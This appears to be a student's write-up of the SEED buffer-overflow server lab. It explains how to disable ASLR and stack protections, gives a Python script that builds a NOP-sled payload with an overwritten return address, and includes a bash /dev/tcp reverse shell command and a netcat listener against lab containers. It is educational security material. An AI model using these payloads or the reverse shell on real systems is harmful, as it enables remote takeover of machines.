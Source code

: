 # Buffer Overflow (Server Version)

## Lab Environment Setup
- SEED Ubuntu 20.04 VM
- Turn off countermeasures
    - `sudo /sbin/sysctl -w kernel.randomize_va_space=0`
    - important, if the randomization is not turned off, the frame pointer and buffer's address will be different each time we execute the program

- Compilation
    - `gcc -DBUF_SIZE=$(L1) -o stack -z execstack -fno-stack-protector stack.c`
    - `-z execstack` Turn off the non-executable stack protection
    - `-fno-stack-protector stack.c` Turn off the StackGuard

## Task 1: Get Familiar with the Shellcode
- The goal of buffer-overflow attacks is to inject malicious code into the program.
- Shellcode is widely used in most code-injection attacks.
- **Shellcode**: a piece of code that launches a shell, and is usually written in assembly language.
- The shellcode is provided, modify it to run arbitrary command, but ensure not to change the length of the argument string. For more information about shellcode, refer to the **Shellcode Development Lab**

## Task 2: Level-1 Attack
- Target Server: `10.9.0.5:9090` (32-bit)
- Send a benign message to the server:
    ```
    $ echo hello | nc 10.9.0.5 9090
    (Press ctrl+C)
    ```
    ```
    $ docker-compose up
    ...
    server-1-10.9.0.5 | Got a connection from 10.9.0.1
    server-1-10.9.0.5 | Starting stack
    server-1-10.9.0.5 | Input size: 6
    server-1-10.9.0.5 | Frame Pointer (ebp) inside bof(): 0xffffd318
    server-1-10.9.0.5 | Buffer's address inside bof():    0xffffd2a8
    server-1-10.9.0.5 | ==== Returned Properly ====
    ```

- Increase the input length, until `bof()` can't return properly
    - in my case, `bof()` could return properly until input size was less than 98
    ```
    server-1-10.9.0.5 | Got a connection from 10.9.0.1
    server-1-10.9.0.5 | Starting stack
    server-1-10.9.0.5 | Input size: 98
    server-1-10.9.0.5 | Frame Pointer (ebp) inside bof(): 0xffffd318
    server-1-10.9.0.5 | Buffer's address inside bof():    0xffffd2a8
    ```

- Exploit
    - use `exploit.py` to generate `badfile`, which contains the payload
    - [NOP, no-op, NOOP](https://en.wikipedia.org/wiki/NOP_(code))
    - `exploit.py`
        ```
        #!/usr/bin/python3
        import sys

        shellcode = (
            "" # Need to change

        ).encode('latin-1')

        # Fill the content with NOP's
        content = bytearray(0x90 for i in range(517))

        #############################################
        ebp      = 0xffffd318
        buf_addr = 0xffffd2a8
        delta    = ebp - buf_addr

        # Put the shellcode in the final part of the payload
        start = 517 - len(shellcode)
        content[start: start + len(shellcode)] = shellccode

        # Return to somewhere before the shellcode
        # save it somewhere in the payload
        ret = ebp + 10     # ebp + x, just ensure that the return address is after (ebp + 8), but before the shellcode
        offset = delta + 4 # Put ret (the new return address) next to ebp

        # User 4 for 32-bit address, and 8 for 64-bit address
        content[offset:offset+4] = (ret).to_bytes(4, byteorder='little')

        #############################################
        with open('badfile', 'wb') as f:
            f.write(content)
        ```

    - Original Stack
        ```
        High Memory Addresses
        |          +---------------------+
        |          |        ...          |
        |          +---------------------+  <-- 0xffffd318 + 8
        |          |    Return Address   |
        |          +---------------------+  <-- 0xffffd318 + 4
        |          |   Previous %ebp     |
        |          +---------------------+  <-- 0xffffd318 (ebp)
        |          |        ...          |
        |          |---------------------|
        |          |                     |
        |          |                     |
        |          |       Buffer        |
        |          |                     |
        |          |                     |
        |          |---------------------|  <-- 0xffffd2a8 (&buffer)
        |          |        ...          |
        |          +---------------------+
        |          |    Unused Space     |
        |          +---------------------+
        |
        Low Memory Addresses
        ```
    - Stack After Buffer-Overflow
        ```
        High Memory Addresses
        |          +---------------------+ 
        |          |                     |
        |          |     Shellcode       |
        |          |                     |
        |          +---------------------+
        |          |        NOPs         |
        |          |---------------------|  <-- 0xffffd318 + 10
        |          |        NOPs         |
        |          +---------------------+  <-- 0xffffd318 + 8
        |          |   0xffffd318 + 10   |
        |          | (New Return Address)|
        |          +---------------------+  <-- 0xffffd318 + 4
        |          |        NOPs         |
        |          |---------------------|  <-- 0xffffd318 (ebp)
        |          |        NOPs         |
        |          |---------------------|  <-- 0xffffd2a8 (&buffer)
        |          |        ...          |
        |          +---------------------+
        |          |    Unused Space     |
        |          +---------------------+
        |
        Low Memory Addresses
        ```

- generating a reverse shell
    - replace the command to: `/bin/bash -i >& /dev/tcp/10.9.0.1/9875 0>&1`
    - on the attacker's machine:
        ```
        $ nc -l 9875
        root@0a4c2c385474:/bof# ls
        ls
        core
        server
        stack
        ```

## Task 3: Level-2 Attack
- Target Server: `10.9.0.6:9090` (32-bit)
- the value of `ebp` will not be revealed
- the buffer size is unknown (but we assume that the range of buffer size is `[100, 300]` in bytes)
- due to the memory alignment, in 32-bit systems, the value stored in the frame pointer is always multiple of 4
- by given any input, we can learn that `&buffer` is `0xffffd018`

- solution:
    1. `ret`: make it close to the shellcode, e.g., `ret = buff_addr + 320`
    2. fill the first part of the buffer with the return address `ret`

    - Stack After Buffer-Overflow
        ```
        High Memory Addresses
        |          +---------------------+ 
        |          |                     |
        |          |     Shellcode       |
        |          |                     |
        |          +---------------------+
        |          |        NOPs         |
        |          |---------------------|  <-- 0xffffd318 + 320
        |          |        NOPs         |
        |          +---------------------+  <-- 0xffffd318 + 316
        |          |   0xffffd018 + 320  |
        |          +---------------------+  <-- 0xffffd018 + 312
        |          |   0xffffd018 + 320  |
        |          |---------------------|  <-- unknown (ebp)
        |          |   0xffffd018 + 320  |
        |          |---------------------|  <-- 0xffffd018 (&buffer)
        |          |        ...          |
        |          +---------------------+
        |          |    Unused Space     |
        |          +---------------------+
        |
        Low Memory Addresses
        ```
